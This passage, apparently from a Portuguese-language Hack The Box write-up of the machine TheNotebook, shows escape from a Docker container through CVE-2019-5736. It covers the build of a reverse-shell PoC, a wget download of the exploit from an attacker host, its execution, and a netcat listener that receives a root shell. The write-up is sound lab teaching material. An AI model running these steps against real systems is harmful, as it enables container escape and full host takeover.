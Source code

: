 Buscando por alguns materiais, encontrei o repositório [stealthcopter/deepce: Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE) (github.com)](https://github.com/stealthcopter/deepce) onde o script promete auxiliar na enumeração de características vulneráveis que permita esse tipo de ação.

Ao executá-lo no container, notei que tínhamos alguma chance dada alguns capabilities (em vermelho na imagem) que permitiriam que tanto realizasse a leitura como também a escrita de arquivos no host, porém após múltiplas tentativas não obtive o sucesso esperado.

![HTB TheNotebook - deepce output](https://i.imgur.com/0L7480D.png){: .align-center}

Como não encontrei nada muito relevante nos arquivos, decidi buscar por outras vulnerabilidades que permitiriam escapar do docker, onde acabei encontrando o CVE-2019-5736 enquanto navegava nas vulnerabilidades relacionadas ao produto **docker** no site [CVE Details]. Esta vulnerabilidade menciona justamente o que procuramos e dado ao seu alto score (CVSS 9.3) talvez exista algum exploit pronto.

![CVE Details - CVE-2019-5736](https://i.imgur.com/CqvPKK3.png){: .align-center}

Buscando por exploits encontrei o repositório [Frichetten/CVE-2019-5736-PoC: PoC for CVE-2019-5736 (github.com)](https://github.com/Frichetten/CVE-2019-5736-PoC) uma PoC escrita em Golang que supostamente se adequaria bem em nosso cenário, uma vez que outras PoCs existentes dependiam da execução do `docker run` como root.

Para obter o shell de root, os passos seguintes foram executados, conforme visto neste blog post ([Reproduction of docker escape vulnerability (CVE-2019-5736) - Programmer Sought](https://www.programmersought.com/article/71804432772/))

- Baixado e editado o script com o payload para execução de shell reverso, chamado `escape.go`

- Compilado utilizando os parâmetros selecionados

  ```plaintext
  CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build escape.go
  ```

- Copiado exploit para a máquina vítima, dentro do container, seguido da sua execução

  ```bash
  wget http://10.10.10.10/escape
  chmod +x escape
  ./escape
  ```

- Uma vez que o exploit substitui `/bin/sh` da máquina por um shell script malicioso, executado a linha de comando a seguir para iniciar o trigger para a exploração

  ```bash
  sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
  ```

Após execução, foi recebido um shell reverso no listener que havia sido iniciado e obtido flag de root desta máquina

```bash
$ sudo nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.230] 35856
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
<4de4eaff90e275467ff2103ff7b6eb2b1ffaf63d44f72a2b2# id
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# cat root.txt
\cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo voces no proximo post! :smiley:
